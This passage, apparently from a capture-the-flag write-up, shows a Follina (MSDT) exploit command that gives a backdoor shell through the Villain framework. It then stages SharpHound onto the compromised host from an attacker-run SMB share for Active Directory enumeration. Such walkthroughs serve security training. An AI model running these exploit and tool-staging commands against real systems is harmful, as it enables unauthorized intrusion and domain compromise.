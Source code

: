 ```bash
./msdt_follina_exploit.py -l "$lhost" -p 80 -c "$payload"
```
{:.nolineno}

After waiting a minute or so, we get multiple requests from the target and a backdoor session for the user `btables` is established. We add an alias to this session to make things a bit quicker.

```bash
# Villain
alias outdated-btables 59fbcd84-ed554de3-c5698c38
```
{:.nolineno}

## Active Directory Enumeration

To better understand our current context in the domain and find any paths to privilege escalation, we will be using [BloodHound](https://github.com/BloodHoundAD/BloodHound) alongside [SharpHound](https://github.com/BloodHoundAD/SharpHound). These tools together will help enumerate and visualize the domain schema.

### BloodHound

First we will copy SharpHound's PowerShell wrapper from [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) onto the machine using the `smbserver.py` script from [Impacket](https://github.com/SecureAuthCorp/impacket).


```bash
mkdir share
smbserver.py -smb2support x ./share
```

Then in a different tab, download `Invoke-SharpHound4.ps1` to the SMB share directory.

```bash
cd share
wget "https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpHound4.ps1"
```

First we spawn an interactive shell and connect to our share.

```bash
# Villain
shell outdated-btables
```
```
net use x: \\10.10.14.3\x
```

Then we move to `C:\Windows\Tasks` and download `Invoke-SharpHound4.ps1` from our SMB server.

```
cd C:\Windows\Tasks
copy X:\Invoke-SharpHound4.ps1 .
```

Then we load `Invoke-SharpHound4.ps1`, and execute the `Invoke-SharpHound4` function
